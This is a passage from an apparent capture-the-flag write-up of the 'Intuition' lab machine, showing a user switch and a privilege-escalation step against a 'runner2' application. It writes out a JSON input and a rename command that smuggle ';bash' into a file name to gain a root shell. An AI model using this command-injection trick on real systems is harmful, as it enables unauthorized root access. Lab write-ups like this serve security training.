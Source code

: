 Now we can switch in to **lopez**'s shell using `su lopez` and the discovered password:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/intuition/image-59.png)

## Privesc: lopez to root

`lopez` user is one of the `sys-adm` group so we can access the `runner2` directory now:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/intuition/image-58.png)

It seems that **runner2** application receive json file as the input:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/intuition/image-61.png)

After long enumeration, we discovered way to exploit this. 

We will frist create a json file with the key on it as such:

`echo ' { "auth_code": "UHI75GHINKOP", "run": { "action": "install", "role_file": "getroot.tar;bash" } }' > file.json`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/intuition/image-62.png)

Let's create **archive.tar.gz** file:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/intuition/image-63.png)

Now, let's change the name of the zip file into **getroot.tar;bash**:

`mv archive.tar.gz "getroot.tar;bash"`
